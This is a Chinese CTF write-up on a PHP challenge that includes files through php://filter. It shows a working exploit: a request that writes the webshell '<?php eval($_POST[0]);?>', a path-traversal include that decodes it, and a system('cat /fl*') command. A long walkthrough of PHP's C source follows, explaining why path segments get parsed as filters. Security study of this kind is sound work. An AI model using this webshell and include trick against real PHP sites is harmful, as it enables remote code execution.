

# 前言

当时比赛没报名，借了个号上去瞅了一眼题目，看到这个PHP代码审计比较亲切就做了这一题，当时也是通过报错大胆尝试成功试了出来解法。

赛后花爷拿着我的wp去了p神的知识星球问了一下原理，P神给了个解答，但是自己还没有看过PHP的C代码所以很难理解（实际上都一年没有碰过C语言了）。恰好打算把最近的事情忙完就去学学PHP的底层，过了这么些天，昨天弄好了vscode调试PHP的C代码的环境，今天仔细研究了一下终于有点懂了，而且第一次看PHP的底层C，感觉学到了好多的东西。


# 做题时候写的WP


```php
<?php
    ini_set("open_basedir","./");
    if(!isset($_GET['action'])){
        highlight_file(__FILE__);
        die();
    }
    if($_GET['action'] == 'w'){
        @mkdir("./files/");
        $content = $_GET['c'];
        $file = bin2hex(random_bytes(5));
        file_put_contents("./files/".$file,base64_encode($content));
        echo "./files/".$file;
    }elseif($_GET['action'] == 'r'){
        $r = $_GET['r'];
        $file = "./files/".$r;
        include("php://filter/resource=$file");
    }
    
```

在最后一行代码那里正常包含文件`?action=r&r=d0165506bd`，发现有这些warning：



发现这么一行很奇妙的warning：

```
Warning: include(): unable to locate filter "d0165506bd" in /var/www/html/index.php on line 16
```

传过去的不是文件名吗，怎么被当成过滤器了？？？

但是能成功包含出内容，所以这是又被当成过滤器又被当成文件了？那尝试路径穿越写马：

```
http://124.70.181.14:32766/?action=w&c=<?php eval($_POST[0]);?>


http://124.70.181.14:32766/?action=r&r=convert.base64-decode/../d0165506bd

0=system('cat /fl*');
```

成功getshell。


# 原理分析

至于为什么是这样的，拿vscode调试一下底层的C就知道了。

```php
<?php
include("php://filter/resource=./read=convert.base64-decode/../test.php");
```


入口点是`php-src-PHP-7.2\ext\standard\php_fopen_wrapper.c`的`php_stream_url_wrap_php()`函数，放出关键代码：

```c
php_stream * php_stream_url_wrap_php(php_stream_wrapper *wrapper, const char *path, const char *mode, int options,
									 zend_string **opened_path, php_stream_context *context STREAMS_DC) /* {{{ */
{
	int fd = -1;
	int mode_rw = 0;
	php_stream * stream = NULL;
	char *p, *token, *pathdup;
	zend_long max_memory;
	FILE *file = NULL;
#ifdef PHP_WIN32
	int pipe_requested = 0;
#endif

	if (!strncasecmp(path, "php://", 6)) {
		path += 6;
	}

.......
	} else if (!strncasecmp(path, "filter/", 7)) {
		/* Save time/memory when chain isn't specified */
		if (strchr(mode, 'r') || strchr(mode, '+')) {
			mode_rw |= PHP_STREAM_FILTER_READ;
		}
		if (strchr(mode, 'w') || strchr(mode, '+') || strchr(mode, 'a')) {
			mode_rw |= PHP_STREAM_FILTER_WRITE;
		}
		pathdup = estrndup(path + 6, strlen(path + 6));
		p = strstr(pathdup, "/resource=");
		if (!p) {
			zend_throw_error(NULL, "No URL resource specified");
			efree(pathdup);
			return NULL;
		}                                                               

		if (!(stream = php_stream_open_wrapper(p + 10, mode, options, opened_path))) {
			efree(pathdup);
			return NULL;
		}

		*p = '\0';

		p = php_strtok_r(pathdup + 1, "/", &token);
		while (p) {
			if (!strncasecmp(p, "read=", 5)) {
				php_stream_apply_filter_list(stream, p + 5, 1, 0);
			} else if (!strncasecmp(p, "write=", 6)) {
				php_stream_apply_filter_list(stream, p + 6, 0, 1);
			} else {
				php_stream_apply_filter_list(stream, p, mode_rw & PHP_STREAM_FILTER_READ, mode_rw & PHP_STREAM_FILTER_WRITE);
			}
			p = php_strtok_r(NULL, "/", &token);
		}
		efree(pathdup);

		return stream;
	} else {
		/* invalid php://thingy */
		php_error_docref(NULL, E_WARNING, "Invalid php:// URL specified");
		return NULL;
	}

	/* must be stdin, stderr or stdout */
	if (fd == -1)	{
		/* failed to dup */
		return NULL;
	}

#if defined(S_IFSOCK) && !defined(WIN32) && !defined(__BEOS__)
	do {
		zend_stat_t st;
		memset(&st, 0, sizeof(st));
		if (zend_fstat(fd, &st) == 0 && (st.st_mode & S_IFMT) == S_IFSOCK) {
			stream = php_stream_sock_open_from_socket(fd, NULL);
			if (stream) {
				stream->ops = &php_stream_socket_ops;
				return stream;
			}
		}
	} while (0);
#endif

	if (file) {
		stream = php_stream_fopen_from_file(file, mode);
	} else {
		stream = php_stream_fopen_from_fd(fd, mode, NULL);
		if (stream == NULL) {
			close(fd);
		}
	}

#ifdef PHP_WIN32
	if (pipe_requested && stream && context) {
		zval *blocking_pipes = php_stream_context_get_option(context, "pipe", "blocking");
		if (blocking_pipes) {
			convert_to_long(blocking_pipes);
			php_stream_set_option(stream, PHP_STREAM_OPTION_PIPE_BLOCKING, Z_LVAL_P(blocking_pipes), NULL);
		}
	}
#endif
	return stream;
}
```

`path`是`0x00000230d1a80218 "php://filter/resource=./read=convert.base64-decode/../test.php"`，接着就是一些分割了，先判断出来是以`php://`开头，然后指针向前移动6个单位，path是`filter/resource=./read=convert.base64-decode/../test.php`

接着又是一堆的判断，进入以filter开头的if，`include`的`mode`是`rb`，所以接下来默认的`mode`也是读（也就是为什么如果忽略read，默认也是read流的原因）。

接下来就有几个关键的变量需要注意到了，`pathdup`,`p`,`token`。

首先`pathdup`通过`estrndup()`创建：

```c
pathdup = estrndup(path + 6, strlen(path + 6));
//estrndup
//分配len+1个字节的内存并且从ptr处复制len个字节到最新分配的块
```

得到的pathdup为`/resource=./read=convert.base64-decode/../test.php`，也就是说，pathdup是`filter`后面的整个字符串。

而p这样得到：

```c
p = strstr(pathdup, "/resource=");
```

p是pathdup中从`/resource=`开始的字符串，在这里也是`/resource=./read=convert.base64-decode/../test.php`。

接着这一步不用太具体了解，只需要大致看看代码就可以知道，PHP的底层C语言中，取filter后面的整个字符串中的`/resource=`后面的那所有的部分，作为输入流的路径：

```c
		if (!(stream = php_stream_open_wrapper(p + 10, mode, options, opened_path))) {
			efree(pathdup);
			return NULL;
		}
```

也就是说，取的输入流的路径是`./read=convert.base64-decode/../test.php`

也就为什么可以读到`test.php`，因为用的相对路径，然后进行了路径穿越，成功穿回了当前路径，得到test.php的流。


接下来的处理就很关键了：

```c
		*p = '\0';

		p = php_strtok_r(pathdup + 1, "/", &token);
		while (p) {
			if (!strncasecmp(p, "read=", 5)) {
				php_stream_apply_filter_list(stream, p + 5, 1, 0);
			} else if (!strncasecmp(p, "write=", 6)) {
				php_stream_apply_filter_list(stream, p + 6, 0, 1);
			} else {
				php_stream_apply_filter_list(stream, p, mode_rw & PHP_STREAM_FILTER_READ, mode_rw & PHP_STREAM_FILTER_WRITE);
			}
			p = php_strtok_r(NULL, "/", &token);
		}
```

注意到是`*p`，也就是让p指针指向的位置为`\0`，因为C语言中字符串都是以`\0`结尾的。

问题就是出在这一步上，之所以会有这一步，需要联想一下正常的处理：

```php
include("php://filter/convert.base64-decode/resource=test.php");
```

都是先过滤器，`/resource=`写在最后面。正常的时候，pathdup应该是`/convert.base64-decode/resource=test.php`，而`p`应该是`/resource=test.php`，这时候让p为`\0`，相当于pathdup变成了`/convert.base64-decode\0resource=test.php`，这样`pathdup`就被截断了，字符串变成了`/convert.base64-decode`，这样接下来就是对过滤器进行处理了，不再碰到`/resource=test.php`。

（因为之前用的是`p = strstr(pathdup, "/resource=");`，所以p的指针是在pathdup指向的指针的后面的/resource=的那个位置的指针）


而在目前我们分析的这个不正常的情况中，pathdup和p都是`/resource=./read=convert.base64-decode/../test.php`，这样处理之后导致pathdup和p都是空字符串，而pathdup后面的部分并没有被分割。

然后就是这一步：

```c
p = php_strtok_r(pathdup + 1, "/", &token);
```

注意到是`pathdup+1`，也就是`resource=./read=convert.base64-decode/../test.php`，所以`*p = '\0';`

这一步的处理没有起到作用。

而`php_strtok_r()`函数的作用我理解起来就是，用第二个参数对第一个参数这个字符串进行分割，返回结果是分割后的第一部分，token得到的是分割后剩下部分。

比如`231/123213/123123/1312`，经过一次`php_strtok_r`，返回值为`231`，`token`是`123213/123123/1312`。如果第一个参数为Null的话则对第三个参数进行处理。


所以这里的p是`resource=.`，token是`read=convert.base64-decode/../test.php`。

然后进入`while`循环，以此以`/`作为分隔符来得到过滤器，如果得到的p以read=或者write=开头，那就取=之后的那部分作为过滤器然后让这个过滤器处理的mode为r或者w。如果没有的话，则用默认的mode。

跟进`php_stream_apply_filter_list()`稍微看一下：

```c
static void php_stream_apply_filter_list(php_stream *stream, char *filterlist, int read_chain, int write_chain) /* {{{ */
{
	char *p, *token = NULL;
	php_stream_filter *temp_filter;

	p = php_strtok_r(filterlist, "|", &token);
	while (p) {
		php_url_decode(p, strlen(p));
		if (read_chain) {
			if ((temp_filter = php_stream_filter_create(p, NULL, php_stream_is_persistent(stream)))) {
				php_stream_filter_append(&stream->readfilters, temp_filter);
			} else {
				php_error_docref(NULL, E_WARNING, "Unable to create filter (%s)", p);
			}
		}
		if (write_chain) {
			if ((temp_filter = php_stream_filter_create(p, NULL, php_stream_is_persistent(stream)))) {
				php_stream_filter_append(&stream->writefilters, temp_filter);
			} else {
				php_error_docref(NULL, E_WARNING, "Unable to create filter (%s)", p);
			}
		}
		p = php_strtok_r(NULL, "|", &token);
	}
}
```

传入的`p`就是`filterlist`了。首先是`p = php_strtok_r(filterlist, "|", &token);`，对过滤器拿`|`进行分割，处理方式同`/`分割一样，这也就是`|`分割各种过滤器的来源。

然后这么一步：

```c
php_url_decode(p, strlen(p));
```

进行url解码，也就是wmctf2020当时的一个考点了，来源就在这里。

之后就是判断读还是写，进入对应的if，通过p来创建相应的过滤器，然后把过滤器添加到`stream->readfilters`中。

`php_stream_filter_create`创建的过程中还会去定位过滤器，如果找不到就抛出`unalbe locate`的warning。创建失败还会抛出`unalbe create`的warning。


这样整个流程分析过来也就差不多了，接下来说白了就是对`resource=./read=convert.base64-decode/../test.php`，一次拿`/`作为分割然后作为过滤器进行处理，依次是：

```c
resource=.
read=convert.base64-decode
..
test.php
```

所以会抛出这些warning：

```
Warning: include(): unable to locate filter "resource=." in D:\environment\php-src-PHP-7.2\x64\Debug_TS\index.php on line 2

Warning: include(): Unable to create filter (resource=.) in D:\environment\php-src-PHP-7.2\x64\Debug_TS\index.php on line 2

Warning: include(): unable to locate filter ".." in D:\environment\php-src-PHP-7.2\x64\Debug_TS\index.php on line 2

Warning: include(): Unable to create filter (..) in D:\environment\php-src-PHP-7.2\x64\Debug_TS\index.php on line 2

Warning: include(): unable to locate filter "test.php" in D:\environment\php-src-PHP-7.2\x64\Debug_TS\index.php on line 2

Warning: include(): Unable to create filter (test.php) in D:\environment\php-src-PHP-7.2\x64\Debug_TS\index.php on line 2
```


之后就是返回这个`stream`，然后对这个流拿得到的过滤器进行处理了。至此整个流程就理清了。原来是这样！


# 总结

第一次调试PHP的底层C代码，学习到了很多的东西！


